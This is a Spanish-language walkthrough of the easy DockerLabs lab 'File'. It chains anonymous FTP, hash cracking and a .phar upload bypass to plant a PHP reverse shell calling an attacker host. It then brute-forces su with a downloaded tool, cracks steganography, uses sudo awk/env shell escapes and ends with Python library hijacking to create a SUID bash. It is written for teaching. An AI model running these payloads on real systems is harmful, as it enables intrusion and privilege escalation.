# File DockerLabs (Easy)

# Contexto de la maquina
## Trayectoria File

<figure><figcaption></figcaption></figure>

## Descripción

**File** es una máquina Linux de dificultad **Easy** en DockerLabs que encadena una cantidad inusualmente larga de técnicas para una máquina de este nivel, comprometiendo cinco usuarios distintos antes de llegar a `root`.

La cadena comienza con acceso FTP anónimo que expone un hash MD5 con el nombre de un usuario. Tras descubrir un formulario de subida de archivos, se bypassea el filtro de extensiones usando la extensión alternativa `.phar` para subir una reverse shell PHP, obteniendo acceso como `www-data`. La escalada a `fernando` se realiza por fuerza bruta de contraseñas del sistema con `suForce`. En el home de `fernando` hay una imagen con datos ocultos mediante **esteganografía**: `stegseek` extrae un hash SHA1 que da la contraseña de `mario`. Desde `mario`, el permiso `sudo awk` como `julen` permite ejecutar una shell directamente. Desde `julen`, `sudo env` como `iker` hace lo mismo. Finalmente, `iker` puede ejecutar `sudo python3 geo_ip.py`, que importa `requests`, y dado que `__pycache__` contiene un `.pyc` antiguo, creando un `requests.py` malicioso en el mismo directorio se consigue **Python Library Hijacking** que activa SUID en `bash` y escala a `root`.

**Objetivo**

- FTP anónimo → hash MD5 → nombre de usuario.
- Bypass de extensión PHP con `.phar` → reverse shell como `www-data`.
- Fuerza bruta de `su` con `suForce` → `fernando`.
- Esteganografía en imagen JPEG → hash SHA1 → `mario`.
- `sudo awk` → `julen`. `sudo env` → `iker`.
- Python Library Hijacking vía `sudo geo_ip.py` → `root`.

**Tipo de máquina**

- Plataforma: DockerLabs
- Sistema operativo: Linux (Debian/Ubuntu)
- Categoría principal: Web / Linux Privilege Escalation
- Componentes involucrados:
    - FTP vsftpd 3.0.5 con login anónimo.
    - Hash MD5 crackeado con John.
    - Formulario de subida con filtro bypasseable con `.phar`.
    - Fuerza bruta de `su` con `suForce`.
    - Esteganografía con `steghide`/`stegseek`.
    - Hash SHA1 crackeado con John.
    - `sudo awk` y `sudo env` para escalada lateral.
    - Python Library Hijacking vía `__pycache__` y módulo `requests` falso.
## Análisis de vulnerabilidades

<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>

## Instalación

Cuando obtenemos el `.zip` lo pasamos al entorno de trabajo y lo descomprimimos:

```shell
unzip file.zip
```

Montamos la máquina con el script de despliegue automático de DockerLabs:

```shell
bash auto_deploy.sh file.tar
```

Respuesta:

```
Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Cuando terminemos le damos a `Ctrl+C` para eliminar el contenedor y no dejar archivos residuales.
# Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Respuesta:

```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-09-18 14:42 +0000
Nmap scan report for 172.17.0.2
Host is up (0.000028s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-r--r--r--    1 65534    65534          33 Sep 12 2024 anon.txt
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
```

Dos puertos abiertos:

- **Puerto 21** → FTP (vsftpd 3.0.5). Nmap ya nos indica directamente que el login anónimo está habilitado y que hay un archivo llamado `anon.txt` accesible públicamente.
- **Puerto 80** → HTTP (Apache 2.4.41). Sirve la página por defecto de Apache, lo que indica que el contenido interesante estará en subdirectorios que tendremos que descubrir con fuzzing.
# FTP anónimo

<figure><figcaption></figcaption></figure>

## Acceso y descarga de anon.txt

El login anónimo de FTP permite conectarse sin credenciales reales: el usuario es `anonymous` y la contraseña puede estar vacía o ser cualquier string (por convención se suele usar un email):

```bash
ftp anonymous@<IP>
```

Dejamos la contraseña vacía y pulsamos Enter:

```
Connected to 172.17.0.2.
230 Login successful.
ftp>
```

Listamos y descargamos el archivo disponible:

```
ftp> ls
-r--r--r-- 1 65534 65534 33 Sep 12 2024 anon.txt

ftp> get anon.txt
```

```bash
cat anon.txt
```

Respuesta:

```
53dd9c6005f3cdfc5a69c5c07388016d
```
# Crack hash MD5

<figure><figcaption></figcaption></figure>

## Identificación y crackeo del hash

El string de 32 caracteres hexadecimales es un hash **MD5**. John the Ripper lo reconoce automáticamente con el formato `Raw-MD5`. MD5 es un algoritmo roto e inadecuado para almacenar contraseñas: es extremadamente rápido de calcular y existen tablas rainbow para millones de contraseñas comunes, por lo que el crackeo por diccionario es prácticamente instantáneo:

> hash.txt

```
53dd9c6005f3cdfc5a69c5c07388016d
```

```bash
john --format=Raw-MD5 --wordlist=<WORDLIST> hash.txt
```

Respuesta:

```
justin           (?)
1g 0:00:00:00 DONE
```

El hash corresponde a `justin`. Dado que está en el FTP de un servidor, lo más probable es que sea un nombre de usuario del sistema.
# Gobuster

<figure><figcaption></figcaption></figure>

## Fuzzing de directorios web

La página principal es el default de Apache, así que nada interesante en la raíz. Fuzzeamos para descubrir rutas y archivos ocultos. Los flags `-x html,php,txt` buscan también archivos con esas extensiones, y `-r` sigue redirecciones automáticamente:

```bash
gobuster dir -u http://<IP>/ -w <WORDLIST> -x html,php,txt -t 100 -k -r
```

Respuesta:

```
uploads              (Status: 200)
file_upload.php      (Status: 200)
```

Dos hallazgos importantes:

- `file_upload.php` → un formulario de subida de archivos.
- `uploads/` → el directorio donde se almacenan los archivos subidos.

Esta combinación es exactamente lo que necesitamos para un File Upload Attack: subir una reverse shell y acceder a ella por URL.
# Escalate user www-data

<figure><figcaption></figcaption></figure>

## Descubrimiento del formulario de subida

```
URL = http://<IP>/file_upload.php
```

Respuesta:

<figure><figcaption></figcaption></figure>

El formulario permite subir archivos directamente. Probamos a subir un archivo PHP de reverse shell:

> shell.php

```php
<?php
$s=fsockopen("<IP_ATTACKER>",<PORT_ATTACKER>);proc_open("/bin/bash",[$s,$s,$s],$p);
?>
```

Al intentar subirlo directamente:

<figure><figcaption></figcaption></figure>

El servidor rechaza el archivo. Hay algún tipo de validación de extensión. Para entender exactamente qué se valida y cómo bypasearla, interceptamos la petición con BurpSuite y la enviamos al Repeater.
## Bypass de extensión con .phar

Apache reconoce `.phar` (PHP Archive) como código PHP ejecutable, igual que `.php`. Si el filtro del servidor solo comprueba que el archivo no termine en `.php` (lista negra de extensión simple), una extensión alternativa como `.phar` pasa el control sin problema.

En el Repeater de BurpSuite modificamos la petición: cambiamos el nombre del archivo de `shell.php` a `shell.phar` en el campo `filename` del formulario multipart. La extensión `.phar` no está en la lista negra, por lo que el servidor la acepta:

```http
Content-Disposition: form-data; name="archivo"; filename="shell.phar"
Content-Type: application/x-php
```

Respuesta del servidor:

```
El archivo shell.phar ha sido subido con exito.
```
## Obtención de la reverse shell

Verificamos que el archivo está en el directorio de uploads:

```
URL = http://<IP>/uploads/
```

Respuesta:

<figure><figcaption></figcaption></figure>

El archivo está visible. Nos ponemos a la escucha antes de acceder a él para no perder la conexión:

```bash
nc -lvnp <PORT>
```

Accedemos al archivo para que el servidor lo ejecute como PHP:

```
URL = http://<IP>/uploads/shell.phar
```

Si volvemos donde tenemos la escucha:

```
listening on [any] 7777 ...
connect to [192.168.5.131] from (UNKNOWN) [172.17.0.2] 53758
www-data@debee1aee91a:$ whoami
www-data
```

Tenemos shell como `www-data`. Sanitizamos la TTY.
## Sanitizacion shell (TTY)

La shell obtenida a través de una reverse shell suele ser muy limitada: no tiene autocompletado, no permite usar atajos de teclado como `Ctrl+C` sin matar la sesión, y en general es bastante incómoda. Por eso realizamos el siguiente proceso para convertirla en una TTY completamente interactiva:

```shell
script /dev/null -c bash
```

```shell
# Suspendemos el proceso con Ctrl+Z
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Consultamos las dimensiones de nuestra terminal local
stty size

# Ajustamos las dimensiones de la shell remota para que coincidan
stty rows <ROWS> columns <COLUMNS>
```
# Escalate user fernando

<figure><figcaption></figcaption></figure>

## Fuerza bruta de su con suForce

Explorando el sistema identificamos varios usuarios con shell activa (`/etc/passwd`). Sin credenciales conocidas para ellos, recurrimos a **suForce**, una herramienta que automatiza el ataque de fuerza bruta sobre el binario `su` directamente desde dentro del sistema. La ventaja frente a atacar SSH desde fuera es que `su` no tiene rate limiting por defecto.

Descargamos `suForce` directamente en `/tmp` de la máquina víctima y transferimos el diccionario desde nuestra máquina atacante:

```bash
# En la máquina víctima
cd /tmp
wget --no-check-certificate -q "https://raw.githubusercontent.com/d4t4s3c/suForce/refs/heads/main/suForce"
chmod +x suForce
```

```bash
# En la máquina atacante: servimos rockyou.txt por HTTP
cd /usr/share/wordlists/
python3 -m http.server 8000

# En la máquina víctima: descargamos el diccionario
wget http://<IP_ATTACKER>:8000/rockyou.txt
```

Ejecutamos la fuerza bruta contra el usuario `fernando`:

```bash
bash suForce -u fernando -w rockyou.txt
```

Respuesta:

```
💥 Password | chocolate
```

```bash
su fernando
# Contraseña: chocolate
```

Respuesta:

```
fernando@debee1aee91a:/tmp$ whoami
fernando
```
# Escalate user mario
## Esteganografía en la imagen del home de fernando

En el home de `fernando` hay una imagen JPEG llamada `dragon-medieval.jpeg`. La esteganografía es la técnica de ocultar información dentro de un archivo aparentemente inocente (imagen, audio, etc.) sin que sea visible a simple vista. `steghide` es una herramienta que puede extraer datos ocultos de imágenes JPEG, pero requiere la contraseña con la que se embebieron.

Transferimos la imagen a nuestra máquina para analizarla:

```bash
# En la máquina víctima
python3 -m http.server

# En la máquina atacante
wget http://<IP_VICTIM>:8000/dragon-medieval.jpeg
```

Sin la contraseña correcta, `steghide` no puede extraer nada:

```bash
steghide extract -sf dragon-medieval.jpeg
# Enter passphrase: (vacío)
# steghide: could not extract any data with that passphrase!
```
## Crackeo de la passphrase con stegseek

**stegseek** es una herramienta de fuerza bruta específica para archivos protegidos con `steghide`. Prueba contraseñas del diccionario hasta encontrar la correcta:

```bash
stegseek dragon-medieval.jpeg /usr/share/wordlists/rockyou.txt
```

Respuesta:

```
[i] Found passphrase: "secret"
[i] Original filename: "pass.txt".
[i] Extracting to "dragon-medieval.jpeg.out".
```

La contraseña era `secret`. El archivo extraído contiene un hash:

```bash
cat dragon-medieval.jpeg.out
```

Respuesta:

```
cbfdac6008f9cab4083784cbd1874f76618d2a97
```
## Crackeo del hash SHA1

El string de 40 caracteres hexadecimales es un hash **SHA1**. John lo detecta automáticamente:

> hash_fernando.txt

```
cbfdac6008f9cab4083784cbd1874f76618d2a97
```

```bash
john --wordlist=<WORDLIST> hash_fernando.txt
```

Respuesta:

```
password123      (?)
```

Probamos `password123` con todos los usuarios del sistema. Funciona para `mario`:

```bash
su mario
# Contraseña: password123
```

Respuesta:

```
mario@debee1aee91a:~$ whoami
mario
```
# Escalate user julen
## sudo awk como julen

```bash
sudo -l
```

Respuesta:

```
(julen) NOPASSWD: /usr/bin/awk
```

`mario` puede ejecutar `awk` como `julen` sin contraseña. La opción `BEGIN {system(...)}` de `awk` ejecuta un comando del sistema antes de procesar ningún input. Al combinarlo con `sudo -u julen`, ese comando se ejecuta con los privilegios de `julen`:

```bash
sudo -u julen awk 'BEGIN {system("/bin/bash")}'
```

Respuesta:

```
julen@debee1aee91a:/home/mario$ whoami
julen
```
# Escalate user iker
## sudo env como iker

```bash
sudo -l
```

Respuesta:

```
(iker) NOPASSWD: /usr/bin/env
```

`julen` puede ejecutar `env` como `iker`. `env` es una herramienta para ejecutar comandos con variables de entorno modificadas, pero también puede usarse directamente para lanzar cualquier programa. Al pasarle `/bin/bash` como argumento, se ejecuta bash con los privilegios del usuario objetivo:

```bash
sudo -u iker env /bin/bash
```

Respuesta:

```
iker@debee1aee91a:/home/julen$ whoami
iker
```
# Escalate Privileges

<figure><figcaption></figcaption></figure>

## sudo python3 geo_ip.py como root

```bash
sudo -l
```

Respuesta:

```
(ALL) NOPASSWD: /usr/bin/python3 /home/iker/geo_ip.py
```

`iker` puede ejecutar el script `geo_ip.py` como `root` sin contraseña. Leemos el script para entender qué hace:

```python
import requests
ip = input('Introduce la direccion IP que quieras geolocalizar: ')
respuesta = requests.get(f'http://ip-api.com/json/{ip}')
data = respuesta.json()
print(data)
```
## Análisis de la vulnerabilidad: Python Library Hijacking

El script importa el módulo `requests`. Python busca los módulos a importar siguiendo una lista de directorios en orden: primero el directorio del propio script, luego las rutas del sistema (`site-packages`, etc.).

Listamos el directorio de `iker`:

```
/home/iker/
├── geo_ip.py      (propiedad de root, solo lectura)
└── __pycache__/
    └── requests.cpython-38.pyc  (caché compilada)
```

Hay un `__pycache__` con un `.pyc` de `requests` de una ejecución anterior. Aunque existe esta caché, Python la usa solo si no encuentra un archivo fuente `.py` más reciente en el path. Si creamos un `requests.py` en el mismo directorio que `geo_ip.py`, Python lo encontrará **antes** de buscar el módulo real del sistema, importando el nuestro en su lugar. Al ejecutar el script como `root` vía `sudo`, nuestro código malicioso se ejecutará con privilegios de `root`.
## Creación del módulo malicioso e inyección

Creamos `requests.py` en el directorio de `iker` con un payload que activa el bit SUID en `/bin/bash`:

> /home/iker/requests.py

```python
import os
os.system("cp /bin/bash /tmp/rootbash && chmod u+s /tmp/rootbash")
```

Ejecutamos el script con `sudo`:

```bash
sudo /usr/bin/python3 /home/iker/geo_ip.py
```

El script falla con error (porque nuestro `requests.py` no tiene el método `.get()`), pero antes de fallar ya ejecutó el `os.system()` del nivel de módulo:

```
AttributeError: module 'requests' has no attribute 'get'
```

Verificamos que el binario fue creado con SUID:

```bash
ls -l /tmp/rootbash
```

Respuesta:

```
-rwsr-xr-x 1 root root 1183448 Sep 20 17:22 /tmp/rootbash
```

Escalamos a `root` con el flag `-p`, que indica a bash que preserve los privilegios del propietario del binario:

```bash
/tmp/rootbash -p
```

Respuesta:

```
rootbash-5.0# whoami
root
```

Ya somos `root`. Leemos la flag final:

> root.txt

```
f0ea495293070da50a1c6e483a0525e7
```

